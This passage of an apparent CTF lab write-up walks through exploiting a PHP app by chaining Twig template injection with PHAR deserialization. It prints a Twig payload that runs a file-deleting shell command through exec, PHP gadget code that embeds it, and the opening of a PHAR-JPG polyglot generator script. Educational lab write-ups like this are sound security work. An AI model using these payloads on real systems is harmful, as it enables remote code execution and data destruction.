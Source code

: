 - SSTI:

**According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#twig-php), we can gain remote code execution via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-10/images/Pasted%20image%2020230113144922.png)

**Payload:**
```php
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}
```

- PHAR:

**Now we have a SSTI payload, we can build a PHP payload:**
```php
class CustomTemplate {}
class Blog {}

$object = new CustomTemplate;
$blog = new Blog;

$blog->user = 'any_user_you_want';
$blog->desc = '{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("rm /home/carlos/morale.txt")}}';

$object->template_file_path = $blog;
```

This payload will set a SSTI payload in the `Blog->desc` attribute, which will then parsed to `CustomTemplate->template_file_path`.

**Finally, we can create a PHAR payload.**

**According to [this GitHub repository](https://github.com/kunte0/phar-jpg-polyglot), we can create a PHAR JPG ploygot:**
```shell
┌[root♥siunam]-(/opt)-[2023.01.13|15:21:05]
└> git clone https://github.com/kunte0/phar-jpg-polyglot.git;cd phar-jpg-polyglot
```

**`phar_jpg_polyglot.php`:**
```php
<?php


function generate_base_phar($o, $prefix){
    global $tempname;
    @unlink($tempname);
    $phar = new Phar($tempname);
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("$prefix<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($o);
    $phar->stopBuffering();
    
    $basecontent = file_get_contents($tempname);
    @unlink($tempname);
    return $basecontent;
}

function generate_polyglot($phar, $jpeg){
    $phar = substr($phar, 6); // remove <?php dosent work with prefix
    $len = strlen($phar) + 2; // fixed 
    $new = substr($jpeg, 0, 2) . "\xff\xfe" . chr(($len >> 8) & 0xff) . chr($len & 0xff) . $phar . substr($jpeg, 2);
    $contents = substr($new, 0, 148) . "        " . substr($new, 156);
```